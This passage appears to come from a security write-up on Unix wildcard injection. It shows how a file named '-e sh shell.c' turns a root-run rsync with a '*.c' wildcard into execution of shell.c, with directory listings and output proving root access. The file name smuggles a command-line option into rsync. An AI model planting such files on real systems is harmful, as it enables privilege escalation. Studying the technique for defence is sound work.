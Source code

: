 ```
-rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
-rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
-rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
-rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt
```
There were two files owned by user 'leon', as listed below.
```
-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
```
After 'rsync' execution, new file shell_output.txt whose owner is root
is created in same directory.
```
-rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt
```
If we check its content, following data is found.
```
[root@defensecode public]# cat shell_output.txt
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
Trick is that because of the '*.c' wildcard, 'rsync' got '-e sh shell.c' option
on command line, and shell.c will be executed upon 'rsync' start.
Content of shell.c is presented below.

```
[root@defensecode public]# cat shell.c
/usr/bin/id > shell_output.txt
```
